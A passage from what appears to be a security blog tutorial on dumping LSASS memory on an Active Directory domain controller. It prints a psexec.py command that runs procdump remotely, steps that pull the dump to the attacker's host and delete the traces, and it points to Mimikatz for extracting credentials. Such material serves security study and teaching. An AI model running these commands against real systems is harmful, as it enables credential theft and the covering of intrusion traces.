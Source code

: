 Once uploaded, procdump needs to be executed in order to create this lsass dump.

[![Excute Procdump](/assets/uploads/2019/11/execute_procdump.png)](/assets/uploads/2019/11/execute_procdump.png)

```bash
psexec.py adsec.local/jsnow@DC01.adsec.local "C:\\Windows\\Temp\\procdump.exe -accepteula -ma lsass C:\\Windows\\Temp\\lsass.dmp"
```

The dump then needs to be downloaded on the attacker's host, and traces on the remote host should be erased.

[![Get Procdump](/assets/uploads/2019/11/get_procdump.png)](/assets/uploads/2019/11/get_procdump.png)


```
# get lsass.dmp
# del procdump.exe
# del lsass.dmp
```

Credentials can be retrieved with Mimikatz: the first line loads the memory dump, and the second one retrieves the secrets.
